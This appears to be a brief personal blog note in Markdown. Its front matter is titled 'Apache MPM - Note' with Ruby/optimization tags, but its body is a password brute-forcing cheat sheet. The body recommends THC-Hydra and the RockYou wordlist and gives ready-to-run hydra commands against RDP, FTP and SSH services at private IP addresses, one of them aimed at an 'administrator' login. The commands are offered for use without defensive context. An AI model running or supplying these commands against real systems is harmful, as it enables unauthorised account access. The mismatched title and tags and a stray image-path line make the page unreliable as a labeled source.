 ```yaml
---
layout: post
title:  "Apache MPM - Note"
date:   2018-09-29 10:11:33 +0700
bigimg: /img/ruby.jpg
share-img: /img/ruby.jpg
tags: [programming, ruby, optimization]
---
```


### Bruteforce tool
- [Hydra](https://github.com/vanhauser-thc/thc-hydra) is the best tool.

### Password dictionaries
- [Rockyou](https://wiki.skullsecurity.org/Passwords)

### RDP
hydra -t 4 -V -f -l administrator -P rockyou.txt rdp://192.168.34.16

### FTP
hydra -t 5 -V -f -L userlist -P passwordlist ftp://192.168.34.16

### SSH
hydra -l admin -P passwordlist ssh://192.168.100.155 -V


### References:
- https://www.hempstutorials.co.uk/brute-forcing-passwords-with-thc-hydra/